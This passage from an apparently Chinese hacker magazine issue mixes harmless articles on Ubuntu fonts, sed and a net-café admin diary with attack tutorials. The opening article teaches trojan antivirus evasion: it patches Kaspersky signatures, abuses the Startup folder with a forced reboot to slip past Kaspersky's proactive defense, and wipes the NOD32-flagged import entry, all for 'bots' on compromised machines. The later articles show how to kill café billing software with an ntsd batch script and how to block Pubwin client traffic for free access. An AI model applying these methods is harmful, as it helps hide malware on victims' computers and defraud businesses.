在这再说下我理解的什么是复合型特征码（设父特征码名为tg，子特征码A名为ga，子特征码B名为gb，子特征码C名为gc）。卡巴在一定的位置寻找父特征码，如果父特征码存在的话，就报出父特征码的定义名tg；如果父特征码不存在的话，就去寻找子特征码A，如果A存在，就报A的定义名ga；要是A也不存在，就继续寻找子特征码B，如果B存在，就报gb，不存在就报gc。这个是定义3层的复合型特征码。不知道你们明白什么是复合型特征码了没有。也可以这样说，我要把这些特征码全部都找出来，kill it，才能达到免杀的效果。

在上面定义出的父特征码，修改就可以，卡巴定义的特征码比较长，大于8个字节，用JMP LONG都可以。找到空白的地方一层一层地把特征码全部转移就可以了。

还有卡巴新出的主动防御，这个嘛，要过也不是很难的。也不用什么很麻烦的方法，这个方法简单得很。你把木马放在“C:\Documents and Settings\All Users\开始\菜单\程序\启动”文件夹下，下次机器启动时这个木马就运行了。卡巴的主动防御是在这个文件夹下的文件运行后才启动的，所以是可以绕过去的。在复制完文件后，用个强制重启的命令（XP）“shutdown -f -r -t 0”，就可以强行重启了。成功上线（如图7）。

## （三）过瑞星、巡洋舰等

这几个杀毒软件的查毒方式和卡巴差不多，也是复合型特征码，不过子特征码不是很多，大约有4、5层，不是很难定位。我在此就不再赘述了。

## （四）过NOD32

这个杀毒软件的杀毒方式很有意思，通过输入表的信息来寻找一个字符串，这个字符串等于一个值的时候，就认为这个文件是病毒。

我一开始不知道的时候还以为必须要修改这个字符串（这个字符串是个DLL名，是特征码），把它左右移动进行修改，这样改的话DLL文件名就被改了，系统会告诉你找不到***文件；替换它的大小写，这也是没有用的。还用过加花、加壳，可惜还是不成，可见NOD32的脱壳引擎是怎么地强悍。

在某次学习PE结构的时候看到了关于输入表的信息，使我联想到了NOD32是不是就是用输入表确定特征码？结果，还真叫我给猜中了。于是，我就把输入表给它破坏掉，简单地说就是给它删了，用0来填充了，这样一来，我们的文件就不会被杀了。输入表被我们破坏了，就使一些函数无法使用了，这就要求我们自己来重定位函数了，这个方法我还没有想好要怎么来修改，不过我们可以用一个治标的方法，这个方法用了以后这个文件就只能运行在某个特定的操作系统中了，比如你修改时用的操作系统是WINXP SP2，那么这个文件就只能在WINXP SP2中运行（在别的系统中的kernel32加载的基址不一定一样），不过也可以了。用的方法很简单，NOD32在彩虹中定位的特征码是kernel32.dll这个字符串，我们就把它在“导入查找表”中的输入表给删掉。

```text
00409794    28980000    DD 00009828
结构：IMAGE_IMPORT_DESCRIPTOR
00409798    00000000    DD 00000000
0040979C    00000000    DD 00000000
004097A0    AC9B0000    DD 00009BAC    <-- 注意这个值
004097A4    1C100000    DD 0000101C
```

我们用“右键——二进制——二进制复制”，把这些代码全复制下来备用，再按下Ctrl+A分析代码，你就会看到你选中的代码变成了一片乱码了，这时用“右键——二进制——二进制粘贴”，然后就“右键——复制到可执行文件——所有修改——全部复制”，这样就OK了。不过我说过这只是个治标的方法，是不能跨平台使用的，测试后成功上线（如图7）。不过值得庆幸的是，在国内用NOD32的不是很多，我的国外肉鸡也没见到几个用的。不过还是建议最好不要乱动输入表，除非你对它十分了解or十分有把握。

```text
00409828    98990000    DD 00009998
为“KERNEL32.dll”导入查找表：
0040982C    AC990000    DD 000099AC

00409BAC    4B 45 52 4E 45 4C 33 32 2E 64 6C 6C    ASCII "KERNEL32.dll"
```

（我这样的图示大家就能明白这个NOD32是怎样定位特征码的了吧？）

就是这个，选中“右键——二进制——用00填充”，就好了。再向上拉到头，就能看到如下代码：

```text
00401008 >    F4EADA77      DD ADVAPI32.RegCreateKeyExA
0040100C >    8378DA77      DD ADVAPI32.RegQueryValueExA
00401010 >    C9B4DC77      DD ADVAPI32.GetUserNameA
00401014 >    E7EBDA77      DD ADVAPI32.RegSetValueExA
00401018 >    00000000      DD 00000000
0040101C >    CC21807C      DD kernel32.ReadProcessMemory
```

对于破坏输入表、完美重定位函数的方法，我暂时还没有想好要怎样做。“kernel32.dll”这个DLL是个很关键的DLL，很多重要的函数我都无法使用，对于这个我还要好好地想该如何能突破。我想可能要用CRC校验找API的方法来实现了。等我想好了，一定会与大家分享的。我的目标是不改变原文件的大小而让我的马儿达到免杀的效果，免杀界没有神秘的技术，重要的是扎实的基本功，最后祝愿《黑客手册》越办越好。

【本文介绍的相关工具和程序已收录在本期光盘中】

> **编辑点评：**
>
> 以往都是免杀过一种杀软，对于目标不定的肉鸡来说，传了上去却被杀了也不知道，但如果把主流的杀软都免杀了，那还怕被杀吗？本文通过一个例子详细介绍了操作步骤，希望你的马儿也不会被杀了。

> 风飘首页：
>
> Ubuntu用了1年多了，一直看着那土黄的界面，也没觉得有什么不好。慢慢熟悉了，习惯了。这次编辑Ubuntu专题的时候，突然有了种冲动，所以就在网上找啊找啊找，终于找到一个全黑的主题换上了，这时才发现，虽然说用Ubuntu是为了学习Linux，但在空闲时，搞搞系统美化也不错，桌面漂亮了，心情也好了。劳累的时候突然停下来，发现工作也是一种享受。


## Linews

- **1、KDE 4.0正式版将在明年1月11日正式发布。**

在今年3月11日发布第一个Alpha测试版时，预报的正式发布日期是2007年10月，在第二个Beta测试时，发布日期跳到了今年年底。

最近，KDE官方的正式公告显示：KDE 4.0将在08年1月11日发布。这个日期貌似还不是很确定，因为“开发者还需要时间解决几个重要的问题，以确定能在发布时提供一个更强大和工作更良好的KDE”。

> **风飘点评：**
>
> 因为一再地跳票，KDE 4更让我们期待。虽然小编个人一直在用GNOME，但我不得不说，还是KDE更适合Linux的桌面之路。

- **2、开源Firefox 3.0将推新功能：监测恶意网页**

网络安全已经成为当今互联网的主要话题之一，越来越多的恶意网页让网民防不胜防。根据安全公司Sophos上个月的报告，在过去的几个月里恶意网站数量猛增，四月份的时候每天新增5000个，这个数字到了七月份变为每天新增大约30000个。

面对恶意网页的数量迅速增长，Mozilla公司正在为Firefox 3.0新增一项功能，该功能将可以监测出来恶意网页并提示用户。

Mozilla公司主管安全的Window Snyder表示，公司正在尝试从两个方向上解决越来越多的恶意网页的问题，帮助用户从初期就把木马挡住并避免被坑。

据悉，届时Firefox 3.0将可以检查用户访问网站的内容以检测恶意代码，目前，开发者们正在建立一个良好的用户界面，用来反馈这些警告信息。

> **风飘点评：**
>
> 前不久Google也推出了类似的功能，检测搜索到的页面有危害计算机的代码就会发出提示，这是个不错的功能，现在也被Firefox借鉴了。其实在这之前Firefox也有类似的插件，但现在官方的支持必定会使这个功能更切合我们的需要，据称近期IE的市场份额又下降了10%，基本都是被Firefox所取代，这当然是有原因的。

- **3、Vista竟然受Windows多年前漏洞影响**

据国外媒体报道，微软证实，5年前曾经修复的一个漏洞目前仍然影响着Windows系统，而且还包括Windows Vista在内。

近日，在新西兰惠灵顿召开的Kiwicon黑客大会上，黑客Beau Butler展示了5年前的一个漏洞，而且目前仍影响着Windows系统。仅在新西兰，就有16万台计算机受该漏洞影响。Beau Butler 称，在公布该消息前，他已经与微软取得了联系，但并未得到任何回复。

Butler 说：“我想微软已经意识到该问题，该漏洞早在 5 年前就已经被发现，而且给用户的感觉是已经被修复。”

由于被公开曝光，该问题似乎已经得到了微软的足够重视。微软产品安全总经理 George Stathakopoulos 称：“如今，我们已经意识到该问题，且已展开调查，争取早日解决问题。”

有趣的是，该问题在 5 年前明明已经被修复。但从目前情况看，此前的补丁似乎并未奏效。而且，微软还表示，该漏洞的危险性很大，建议 Butler 不要再公布更多的详情。

据悉，该设计漏洞影响所有版本的 Windows 系统，其中包括新一代操作系统 Windows Vista。当然，这并不意味着该漏洞将影响每一台 Windows 计算机。毕竟，还取决于用户对 Windows 系统的设置。

### 风险点评

曾几何时，Windows Vista 被誉为最安全的操作系统，可是 Vista 推出不久，漏洞就接连不断，难道这就是 Windows 产品的宿命？是什么造成的这种结果？有些东西不需要逻辑太多。仅仅是我的个人看法，微软和 Linux 发行公司的区别，就是一个是为得到美元而为人们服务，一个是因为为人们服务而得到美元。


## 桌面环境体验：办公与美化篇

- 从本文您可以学到：
- 如何在 Ubuntu 下设置字体和系统美化
- Ubuntu 在办公方面的应用

大家新年快乐！2008 年是令人兴奋的一年，不仅仅因为北京奥运，我们也将迎来 Ubuntu 8.04。这是一个 LTS 版本的 Ubuntu。LTS，Long Term Support，中文意思就是“长期支持”，意味着 8.04 将被支持三年，而一般版本的 Ubuntu 是 18 个月。当然在未来，这些老的版本还是可以在系统的提示下无缝地升级至最新的发行版，所以一般的读者无须担心什么时候会停止更新。这期的话题是办公和美化，为什么将这两个看似风马牛不相及的部分放在一起呢？因为它们之间有个共同点，那就是字体。有的人喜欢养眼的字体，有的人喜欢系统自带的默认字体。办公文档当然需要合适的字体，而美化也一样，所以本期的话题是办公和美化。

字体，同样拥有版权，Windows 下的宋体、雅黑、Mac OSX 下面的黑体等等，这些都是拥有版权的，不能随随便便地拿来使用，所以在使用这些有版权的字体之前，你先得确认你有权力使用这些字体。微软雅黑号称一个字值 200 美元……Ubuntu 下面使用的默认简体中文字体是 uming.ttf，这是台湾的文鼎公司贡献出来的一款高质量的 TTF 中文宋体字体，遵循的协议是文鼎自己的协议。安装好中文支持以后就会装上这个字体。还有一款楷体字体叫做 ukai。这里有一张截图（在 OpenOffice.org 中所截）对比了 Windows 和 Ubuntu 下面的宋体和楷体，如图 1。

如何在 Ubuntu 下面安装字体呢？如果是在 Windows 下面只要简单地把 TTF 字体复制到 Windows 的系统目录的 fonts 目录下面。Ubuntu 的 fonts 目录在哪里呢？这里介绍一个最简单的方法，打开“位置－主文件夹”，在文件浏览器的位置那一栏里面输入 fonts:，然后回车就会出现系统里面安装的字体文件，把准备好的 TTF 文件复制到里面就 OK 了。那这个 fonts 目录的绝对路径到底在系统的哪里呢？如果是按照上面的步骤来做的话，这个目录是在 `~/.fonts` 下面。可以在位置栏里面输入 `~/.fonts` 进去看一下，刚刚复制的文件都在这里吧。当然这个方法肯定不是最好的或者最普通的，因为它只适合当前用户。系统自带的很多 TTF 字体在 `/usr/share/fonts/truetype` 目录下面，有兴趣的读者可以进去看一下，一般的安装字体的方法可以参考有关资料。

字体安装好了，默认是不会启用的，所以下一步需要启用它。在 Ubuntu 里面改变了系统设置不需要像 Windows 一样重启，虽然重启是肯定可以的。最简单的方法是重启一下 Gnome 桌面，“Ctrl + Alt + Backspace” 可以重新回到 Gnome 的登录界面，再次登录后刚刚复制的字体就被系统所注册了。当然你要是懒得连 X 都不想重启，这里有一个命令可以注册你的新字体，在终端内输入 `fc-cache` 就可以了。然后 `fc-list | more` 一下看看你拷贝的字体是否在其中，如图 2。

最后编辑 `/etc/fonts/language-selector.conf` 文件，在 serif、sans-serif 和 monospace 下面的子项内加入新中文字体的字体名，字体名以 fc-list 出来的为标准，所以最后加入的子项为 `<family>Microsoft YaHei</family>`，如图 3。做好这些以后重启一下 Gnome 看看，你新加入的中文已经被用在了系统字体上面了吧。

有了符合自己审美习惯的字体还不够，Ubuntu 默认的 human 主题是土黄色的。虽然这种主题比较保护我们的视力，但是不符合很多人的审美眼光，总觉得土土的，所以需要把 Gnome 的主题也一并换了。Gnome 的主题非常多，可以上 http://www.gnome-look.org/ 去下载。这里拿比较流行的 mac4lin 主题当例子来演示一下如何安装 Gnome 的主题。mac4lin 的主页是 http://sourceforge.net/projects/mac4lin/，下载所需要的包 Mac4Lin_v0.3.tar.gz 和 Mac4Lin_Icons_v0.3a_for_GNOME_2.20.tar.gz，另外两个包是可选下载的。

| 黑客字形 | 文鼎 PL 细上海宋 Uni |
|---|---|
| 黑客字形非安全 | 宋体 |
| 黑客字形非安全 | 文鼎 PL 中楷 Uni |
| 黑客字形非安全 | 楷体 |

> 图 1 字体的对比

```text
fc-list | grep YaHei
微软雅黑,Microsoft YaHei:style=Normal,Obycejné,Standard,Ковыкә Regular,Normal
...省略若干字体列表...
```

> 图 2 查看字体是否正确安装

```xml
<fontconfig>
  <include ignore_missing="yes">CJK_aliases</include>
  <alias>
    <family>serif</family>
    <prefer>
      <family>Microsoft YaHei</family>
      <family>AR PL UMing CN</family>
      <family>AR PL ShanHeiSun Uni</family>
      <family>WenQuanYi Bitmap Song</family>
      <family>Bitstream Vera Serif</family>
      <family>DejaVu Serif</family>
      <family>AR PL Uki CN</family>
      <family>AR PL ZenKai Uni</family>
    </prefer>
  </alias>
```

> 图 3 加入字体名

Wallpapers、Mac4Lin_v0.3.tar.gz 和 Mac4Lin_Documentation_1.1.pdf。这四个文件分别是 Mac4Lin 的主题包、Gnome 的图标、桌面墙纸和如何设置的说明书。只需要右键解压缩 Mac4Lin_v0.3.tar.gz，打开“系统—首选项—外观”，跳出外观首选项对话框如图 4。

点击右下角的安装按钮，把 gnome-icon 装入系统，然后应用即可。使用同样的方法把解压缩后目录里面的 GTK Metacity Theme 目录下面的 Mac4Lin_GTK_v0.3 包装上去，这是 Gnome 默认窗口控件主题。对于一般的应用安装这两项就可以了，mac4lin 的包内还带有各类常用程序的主题包，比如 Firefox、Pidgin、XMMS 或者 Audacious 等等，安装方法都比较简单，这里略过。对于安装了 3D 桌面的用户，还自带了 Emerald 窗口控件主题和 Avant Window Manager 的主题，足以以假乱真。甚至最近又出来一个 mac-menu 的软件，让用户可以用上 mac 的菜单，因为笔者的系统是 64 位的需要手动编译，所以这里没有安装，感兴趣的朋友可以 Google 尝试一下。最终的效果如图 5，比原来的界面肯定养眼得多。


当然如果用户只是想使用 Ubuntu，完全可以不用做所谓的美化的，因为在啰嗦多月内刚刚装好 Linux 的时候烦恼的两件事情，一是美化，另外一件就是汉化，在美化和汉化上面花了太多的时间，以致于忘了使用 Linux 的初衷，怎么学习使用 Linux，而不是搞面子工程。所以默认的 Ubuntu 主题也是完全可以接受的，uming 字体也不见得比 SimSun 差多少，只不过大多数用户用惯了盗版的 Windows，看惯了 SimSun，这已经成为一种习惯了，不知道是一种无奈还是可悲。

当然 Linux 不仅仅只有 Gnome 一个桌面环境，还有 KDE、Xfce、Fvwm、Fluxbox……几十种桌面环境或者窗口管理器，各种桌面的美化方法基本上是不一样的，如果你的桌面环境不是 Gnome 的话需要自行参考有关的文章。1000 个人的 Linux 桌面可能有 1001 种样子，这就是 Linux。

谈完了美化，下面是 Ubuntu 下面的办公。现在几乎很少有公司会用 Ubuntu 来办公，但是随着 Ubuntu 的普及，这已经成为了一种趋势。办公软件、打印、扫描等等在 Ubuntu 下面都显得非常简单。微软的 Office 套件也是人们习惯使用的，Ubuntu 默认提供了 OpenOffice.org（以下简称 OOo）套件，足以媲美微软的 Office 套件。默认的 OOo 启动非常慢，如果内存够大，比如 1G 以上，可以这样做一下设置，打开“应用程序—办公—OpenOffice.org 文字处理”，在“工具—选项—内存”里面把默认的选项改成如图 6 所示，特别是最后的“启用系统栏快速启动”一定要勾上，然后在 Java 的选项里面取消“使用 Java 运行环境”，最后关掉 OOo 重启一下，速度是不是飞快了？


OOo 套件包含了文本文档、电子表格、演示文档、绘图、数据库五大部分，分别对应于微软的 Office 组件里面的 Word、Excel、PowerPoint、Visio、Access。相信熟悉微软办公软件的朋友应该很容易上手吧，具体怎么使用这些程序不属于本文的范围。OOo 是 Sun 公司贡献给开源社区的一份丰厚的大礼，从 OOo 衍生了许多版本，特别是国内的一些办公软件对微软 Office 的兼容度非常高，比如 RedOffice。想要使用正版又暂时用不起或者怕微软起诉的用户可以试试。当然 Sun 对世界所作的最重要的贡献是它的 Java 语言，可以毫不夸张地说 Java 已经无处不在。

OOo 还有一个很方便的功能，它可以直接输出成 PDF 文件，方便没有 OOo 的用户查看编辑好的各类文档。当然 OOo 也部分兼容微软的 Office 文档，也能另存为微软的某些格式，但是这里不建议使用。说到这里想起了最近关于微软的 OXML 与开放文档格式 ODF 之争，最终 OXML 落败，所以文档还是开放的比较好，不容易留下什么未知的隐患。

下面我们重点来看一下如何使 Ubuntu 连接打印机。打印机在 Ubuntu 7.10 下面安装非常简单，一般办公室里面的打印机会分成三类，一类是直接连接；第二种是打印机连接在 Windows 操作系统的电脑上；最后一种是打印服务器或者网络打印机。

对于第一种情况，直接把打印机的 USB 连线连入 Ubuntu 7.10，系统的状态栏会跳出打印机的图标，Ubuntu 会自动帮你把打印机设置好了，点一下 configure，跳出打印机配置对话框，可以看到如图 7 的画面，点击打印测试，一般情况下无需做任何设置打印机就能自动工作了，因为 Ubuntu 内置了市面上常见的数百种打印机驱动，比 Windows 是不是方便得多啊？


对于情况二，打开“系统—系统管理—打印”，弹出“打印机配置”对话框，点击左上角的“新打印机”图标，在弹出的“新打印机”对话框内选择“Windows Printer via SAMBA”，可以直接填入 Windows 下面共享的机器名和打印机名，比如 `smb:///172.16.113.14/3068`，或者也可以点击 Browser，选择对应的共享打印机即可，然后点击“前进”，接着在对话框内选择对应的打印机驱动即可完成 Windows 共享打印机设置，如图 8。

对于第三种情况，与情况二雷同，区别就是在“新打印机”内选择对应协议的打印机。笔者这台打印服务器可以使用 IPP 或 LPD 协议，在“LPD 网络打印机的位置”对话框主机名输入对应的打印机，如 `lpd://172.16.115.47/lp1`，以下步骤与情况二相同，安装相应的打印机驱动即可完成打印服务器设置，如图 9。

Ubuntu 7.10 下面设置打印机是我所见到的最方便的，比 Windows 方便得多，希望更多的人来使用 Ubuntu 办公，远离微软，远离病毒。

## 编辑点评

Ubuntu 的连载已经第三期了，我想你现在应该知道怎样用 Ubuntu 完成你的日常工作了。你会发现在使用 Ubuntu 做这些事情的时候比在 Windows 下还要方便，办公用 OpenOffice，图片处理用 GIMP，聊天、Mail 等软件都不需要额外安装。Ubuntu 的优点还多着呢，以后的杂志听我们继续为您讲述。


## 让 sed 帮我们提高工作效率

- 从本文您可以学到：
- Sed 的基本用法
- 在 Windows 下用 Sed 提高工作效率

Sed 原本是 Unix 下的一个文本编辑工具，但是在 Windows 下却可以帮我们提高工作和办事效率。好啦，不多说啦，让我们进入今天的正题。

首先了解它的格式，在 Unix 下它的格式为 `sed -e ''`，但是在 Windows 下这样是不行的，应该是 `sed -e ""` 双引号的格式。

## 一、替换删除指定字符

前几天在网上找克莱德曼的钢琴曲，好不容易找到了把下载地址复制下来一看是这样的，如图 1。

这只是其中的一小部分，这怎么办呢？现在请出 sed。

```text
命令：sed -e "s/目标字符串/替换字符/g" 文件
```

（这里的 g 是指进行全文替换）。


用命令：`sed -e "s/\/h/h/g" a.lst | more >> b.lst`，结果如图 2。

命令后面的 `| more` 是为让输出的时候自动换行，命令中的 `g` 在这里是可以不要的，但是 `s` 后面的那个 `/` 是不能少的，否则会报错。在下面这个例子中 `g` 的有无是完全两个意思，如图 3。


如果我们写成 `sed -e "s/:/2008/" a.txt`，这只是将文本中的每行的第一个分号替换成 2008，但是写成 `sed -e "s/:/2008/g" a.txt`，这样一来就成了全部替换了，这一点大家要注意哦。

接下来我们删除多余的，`sed -e "/)/d" b.lst | more >> c.lst`，如图 4。

（由于 sed 修改文件时不会把源文件的内容改变，所以为了看到实际结果只能重定向输出）

好啦，快去试试吧。

2. 命令：`sed -e "s/目标字符串/替换字符串/位数" 文件`

有了上面的那个命令就相对简单了，它的功能是替换指定行的具体的那一位。

## 二、想删哪行你说了算

有没有遇到过这种情况，在一篇文章里或者是数据里想删除许多不相邻的行，要是少的话用手动的完全可以，要是多呢？呵呵，我们有 sed。

命令：`sed -e "要删的行号 d;要删的行号 d..." 文件`

每个命令之间要用分号 `;` 分开；有这样一个文本，如图 5。

让我们删除它的 1、3、5 行，`sed -e "1d;3d;5d" a.txt`，结果如图 6。


如果你想删连续的行的话那当然也是可以的，`sed -e "1,5d" a.txt`，这样 1-5 行就没有啦。

如果你要编辑的文章中有很多的空行，sed 也可以帮助我们一次删除，`sed -e "/^$/d" a.txt"`（`^` 意思是与行首匹配，`$` 意思是与行末尾匹配），这里就不给大家截图了。

## 三、加入你想要的内容

既然说 sed 是一个文本编辑工具，那么它能做的也不只是替换和删除，它还可以添加内容到文件中。

在每一行的开始添加相同的内容，用命令 `sed -e "s/^/欢迎大家来到http:\/\/www.nohack.cn/" a.txt`，如图 7、图 8。


是不是觉得有点眼花了，为了使网址中的 `//` 能够正确地输出，所以在它们的前面加上了 `\\`，这是为了告诉 sed，`//` 不参加编译，请直接将它输出。

能在文首添加就可以在末尾添加，只需将 `^` 换成 `$` 就可以了，要是在文中添加的话那就成了替换了。

sed 的功能远不止这些，希望以上内容对大家有帮助。

## 编辑点评

将 Linux 下优秀的程序移植到 Windows 下已经不是什么新鲜事了。如果你玩过 exploit，那么你应该很熟悉这一点。Linux 下被移植的程序有很多，小 Y 们不妨把它们找来，体验一下 Linux 的命令，对你以后深入学习 Linux 是有帮助的。

## 网管日记 之初入网吧

Zero 新年祝语：

新的一年到来，在这里我先祝大家新年快乐，万事如意！这里不光有我们的祝福，还有一位神秘人物的问候，他是谁呢？让我们先卖个关子。传说中的黑客教父大驾光临我们学校做技术交流，说出来大家可能不相信我们这样的“小庙”怎么会迎来这么牛 X 的人物呢，可是事实就是这样的。老鹰前辈喜欢和学生打交道，经常在他的学校之间飞来飞去，看来他是比较关注对我们年轻一代的培养啊。像老鹰这样老一辈的黑客们为我们祖国的互联网发展做出了巨大的贡献，我们更应该努力学好网络安全技术，扎实基本功，将来为推动祖国互联网的发展贡献出我们的一份力量，这样才不辜负前辈们的希望，他们所作出的努力也没有白费啊！

### 前言

现在回忆起当初进入网吧的初衷，想起来还真是觉得有点嗟叹。当时是刚过完春节，到“心雨轩网吧”还是一如既往地上网！发现网管人数不多，于是就和老板谈了，很顺利地做了起来。

虽然我在进入网吧之前也学了一点东西！并且老板觉得我也还“可以”，还说不懂可以多问下主管。于是我就放心大胆地做了起来。之前我还做了一些准备，学了下什么是注册表呀，什么是组策略等一些常见的小知识。

3 月 5 号！我还清楚地记得，我开始作为一名网管每天到心雨轩进进出出。当时主管还陪我一起，因为怕我解决不了我没有遇见过的问题。开始还蛮紧张的，因为毕竟和个人电脑不同，有些问题就是没有原因地发生。下午 6 点上班，吃过饭后也没有什么事情发生。呆了一会儿，正在和主管谈着，突然一声“网管”，打断我们的谈话。主管示意了一下，我就过去了。我一过去就傻了，这是什么啊？显示屏上的 QQ 对话框老闪个不停，这下我心里彻底没底了，因为我以前没有遇到过。我试着把一个个的对话框关掉，可是数量实在是太多了，我觉得应该是哪里出了问题，可实在想不出。于是我无奈地往后面看了下，主管说：“ENTER 键”，我往键盘上一瞅，果然 ENTER 键被卡住了，把它复位，然后点一点，问题轻松解决。可上网的人抱怨说：“这个怎么敲呀？你不如给我换个键盘吧？”我思索了下，告诉他用小键盘上的 ENTER 键，可是他还不满意。我只好回到收银台，准备要老板给我一个新的。主管却说，不用了，让我来，你看好了。于是主管跑到收银台拿了一个镊子，一个坏键盘，然后从坏的键盘里面随便取个，把里面那个软橡胶似的东西给拿出来；到那位顾客的面前也是同样的操作，把 Enter 键下面的软橡胶换掉，呵呵，效果还真是不错！主管来了一句：“这叫资源的回收利用，呵呵，记住这招，很受用的！”当时我很钦佩地点了点头。想：原来坏键盘还可以这样用，看来以后学的东西还挺多的。

继续接着我们的谈话，主管还告诉我一些小技巧。比如说耳机没声音了，可能是因为：1、设置成了静音；2、耳机上的音量调到了最小；3、耳机线可能松了；4、耳机坏了；5、声卡驱动问题；6、其他原因。嗯，其中有些我还真是忽略了呢。主管还给了我一些忠告，比如说对待客户要有耐心，自己不会的就直接说不会，没有什么的……

我很详细地记着这些，明白自己要学的还有很多，可能在这种环境下我会学到得更多！第一天上班有点兴奋又有点紧张，还算顺利，不知道以后会有什么困难来考验我呢……

> 编辑点评：
>
> 以往的文章总是以小黑的立场看网吧，我们为何不换个角度呢？新的一年应该有新的计划，从这一期开始，我会陆续为大家安排类似的文章，以网管日记的方式讲述一个网管从初入网吧到结束网管一职发生的种种事件。也许大家不能从这篇文章里学到技术方面的知识，但是我的目的不在此哟。我们给了小黑足够多的空间来表现自己，是不是也应该给网管同样的机会呢？看了本文，大家有没有觉得做网管挺不容易呀？这才刚刚开始，他就要面对这样那样的问题，好戏还在后头呢。如果他遇到经常惹我们黑手的小黑呢，哈哈，欲知后事如何，就让我们期待作者的下一篇文章吧……

## 破解 IKeeper——关机免费上网

- 从本文中你可以学到：
  1. 如何破解 IKeeper 管理软件
  2. 如何用组策略破解网吧限制

这年夏，我迈进大学门，初来乍到，第一件事就是摸清校园周边网吧。听说重庆的网吧几乎全部使用的是 IKeeper 管理系统，如图 1。

话说某日，到网吧交费上机，上了 N 久感觉预交费已经用完了，但 IKeeper 却没有提醒我的金额不足。我条件反射似的看了下任务栏，IKeeper 的图标不见了，看来是它出错了。转念一想，既然 IKeeper 的进程被 K 掉而系统没有重启，那把它的进程直接关掉，不就可以轻松免费上网了吗？

某日，晴，我和室友“鬼鬼祟祟”地潜入网吧。既然有了上次的经历，这回直接调出任务管理器，很不幸被禁用，CMD 也被禁用，运行也被禁用，如图 2、图 3。

这里大家可以选择用工具破解，若你手边恰好没有破解工具又懒得去下，下面我教大家手动破解：在 `C:\WINDOWS\system32` 目录中找到 `gpedit.msc` 文件并双击运行组策略，找到“用户配置”→“管理模板”→“系统”，在右侧中找到“阻止访问命令提示符”，双击设置为“已禁用”就可以了，如图 4、图 5。

下面再解除任务管理器，依次找到“用户配置”→“管理模板”→“系统”→“Ctrl+Alt+Del 选项”，将“删除任务管理器”设置为“已禁用”就可以打开任务管理器了。到此，需要的破解已完成。接着调出任务管理器，选择“查看”，把“PID”项勾上，如图 6，点确定，找到 `entry.exe` 和 `ssp.exe` 的进程 PID 并记下。

在桌面上新建一个 txt 文件，将下面一段代码写进去。记住要把 `entry.exe` 的 PID 值写在前面。这里是：

```bat
ntsd -c q -p 396
ntsd -c q -p 1940
```

然后把它保存为 `del.bat`，双击运行后，看到右下角的 IKeeper 管理系统图标不见了，如图 7。

好了，现在即使你的费用用完也不会被关机。由于我不是重庆的，要在网吧上网必须花上 10 个银子办张上网卡，恰好我的室友有一张卡，结果给逼出来又一招免费方法。就是用一张卡开几台免费机器，前面的步骤都一样，但先不要运行 `del.bat`，拿出我们的工具“定时运行指定程序”软件。将倒计时设为 20 秒，把 `del.bat` 的路径填在下面，然后点击确定。迅速结账后等待漫长的十几秒钟，bingo！可爱的桌面又出来了。如果一起去上网的人多，可以用同样的方法开上几台机器。但强烈建议在大、中型网吧、在人很少的时候操作，被管理员捉到就惨了哦！

【文中提到的工具“定时运行指定程序”在光盘中有收录】

> 编辑点评：
>
> 其实本文的重点不是在讲如何破解 IKeeper，因为照作者所说的，只要把它的进程给结束掉就 OK，那这个管理软件实在是太脆弱了！文章重点在于破解网吧限制，这又回到红客路了。网吧一般都用组策略做限制，而组策略的相关操作是对应在注册表里的。其实呢，只要知道了原理，破解网吧限制会变成一件很简单的事。在这里我要重点讲一下 NTSD 这个命令，它并不是专门用来结束进程的，而是一款系统自带的调试工具，一般只有系统开发人员用到它。“-c” 参数用来指定调试命令，“q” 参数的作用是退出，“-p” 大家应该很熟悉了，用来指定进程的 PID；之所以可以结束进程，是因为被 NTSD 调试的进程会随着调试器一起退出，所以只用到“q”参数。有的时候我们用 TASKKILL 命令结束不掉的进程，可以用“NTSD -c q -p PID”这个命令来试试，也许会有意外的效果呢？

## 浅析 Pubwin2007

> ■ 永的原点 [C.S.T]

- 从本文中你可以学到：
  1. 了解 Pubwin2007 的一些特性
  2. 如何突破 Pubwin2007 实现免费上网

Pubwin 这款管理软件现在官方已经升级到 2007 版本了。我对其在 2007 版的改进功能做了摘要：

- 1. 客户端：优化调整安全机制，高效防破解。
- 2. 服务器端：内存占用率降低，系统性能优化。
- 3. 加强 Web 管理页面的安全性，可通过 IP 添加方式自定义哪些机器允许登录 Web 管理页面。

### 一、谈谈客户端：

我们先来看看客户端，其所说的第一条便很让我失望，“高效防破解”，大家是否觉得这句话是不是有点过了头？我们都知道，免费上网分两种：一是直接上机，二是上机后把收费客户端给 KO 掉。对于 Pubwin2007 来说，直接上机确实不太可能，直接锁屏，调出来的任务管理器也是一闪而过的（就算你调了出来，我们这网吧的主管也对任务管理器做了手脚——禁止用户结束进程），至少我现在是没有发现可以直接上的方法。但是第二种确实是有很多方法，因为网上太多的 Pubwin2007 加钱教程了，随便一搜就是一大堆。这里，我要向大家说明一下，这些方法都是有局限性的。

我简单演示下他们的做法来说明为什么他们的方法局限性很大。他们的做法都是这样的：首先用抓包工具确认数据库地址→然后利用默认的 SA 密码连上数据库→接着对数据库进行相应的操作。利用的仅仅是个默认的数据库 SA 密码，可是在一些地方，这个方法是行不通的。试想，对一个稍微有点安全意识的网管来说，这种关系很低级的错误，就算确实是用 SA 连接的，也会有强壮的密码，并且会有相应的 IPSEC 策略，禁止其他机器连接本机的数据库端口。所以说网上说的那种方法在一些地方是不适用的，那或许只有运气好的时候才会有的事情。但是，免费上网确实可以实现。收费是依靠客户端向控制台传送的数据来进行操作的，所以只要我们禁止它们之间的通信便可。

网上的方法也多得很，但一种最高效的方法就是利用防火墙来阻止客户端向控制台发送数据。这里我不推荐使用天网，因为它需要重启才能生效，而网吧都是装有还原软件的。我们使用金山毒霸的金山网镖。大家可以直接搜索金山网镖，下载后打开找到应用规则，如图 1。

这里我把它全部调成禁止，我们再来抓包试试；如图 2，产生了错误。这样我们拿着上网卡到收费台结账下机，再来这台机子上网就可以了。这里，我还是有几点想法：第一个想到的就是这种方法确实简单，但是存在一定的风险，要是网管看见控制台明明 xx 机子应该没有人上的，而却有人，就会导致怀疑。第二，现在不少这种用在网吧的收费软件都做了更加严格的设置，一旦客户端没有响应控制台的时候，控制台就会发出警告。这里就得另寻它法了。网上其他免费的方法思路都一样，只不过做法不一样罢了，大家可以到网上搜索下。

### 二、谈服务器端：

